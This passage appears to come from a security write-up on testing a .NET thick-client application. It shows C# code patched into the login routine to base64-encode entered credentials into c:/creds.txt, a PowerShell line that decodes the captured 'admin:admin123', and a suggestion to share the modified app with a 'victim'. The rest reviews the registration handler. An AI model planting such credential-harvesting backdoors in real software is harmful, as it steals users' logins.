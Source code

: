 ```c#
string path = "c:/creds.txt";
string createText = Convert.ToBase64String(Encoding.UTF8.GetBytes(@string + ":" + string2)) + Environment.NewLine;
File.WriteAllText(path, createText);
```

And when the admin logs in with the credentials `admin:admin123`, I use the following powershell commands to decode it after storing it:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YWRtaW46YWRtaW4xMjM=")) #admin:admin123
```

All that's left is to share this modified application with your victim in your next assessment!

## Register functionality
To register I'll use the following data:

```
arima:arima
arima@test.com
```

Going through the source code again, We can see another module called Register and when the register buttion is clicked, the following method is executed:

```c#
private void btnReg_Click(object sender, EventArgs e)
{
	string username = this.txtRegUsername.Text.Trim();
	string password = this.txtRegPass.Text.Trim();
	string confirmpassword = this.txtRegCfmPass.Text.Trim();
	string email = this.txtRegEmail.Text.Trim();
	if (username == string.Empty || password == string.Empty || confirmpassword == string.Empty || email == string.Empty)
	{
		MessageBox.Show("Please enter all the fields!");
		return;
	}
	if (password != confirmpassword)
	{
		MessageBox.Show("Passwords do not match");
		return;
	}
	DBAccessClass dbaccessClass = new DBAccessClass();
	dbaccessClass.openConnection();
	if (dbaccessClass.RegisterUser(username, password, email))
	{
		this.txtRegUsername.Text = "";
		this.txtRegPass.Text = "";
		this.txtRegCfmPass.Text = "";
		this.txtRegEmail.Text = "";
		MessageBox.Show("Registration Success");
	}
	else
	{
		MessageBox.Show("Registration Failed");
	}
	dbaccessClass.closeConnection();
}
```
